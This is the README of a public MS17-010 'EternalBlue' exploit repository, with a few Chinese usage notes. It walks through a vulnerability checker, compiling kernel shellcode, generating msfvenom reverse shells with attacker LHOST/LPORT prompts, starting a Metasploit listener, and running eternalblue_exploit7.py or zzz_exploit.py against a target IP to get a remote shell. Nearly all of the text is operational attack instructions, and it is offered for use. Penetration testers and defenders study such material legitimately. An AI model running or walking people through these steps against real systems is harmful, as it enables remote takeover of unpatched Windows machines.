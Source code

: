 # MS17-010 Exploit Code

##调用过程：
python eternal_checker.py target_ip 补丁情况 The target is not patched->
./listener_prep.sh 配置msf的反弹shell
python zzz_exploit.py target_ip exploit利用

## info

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion. 

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64) 

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
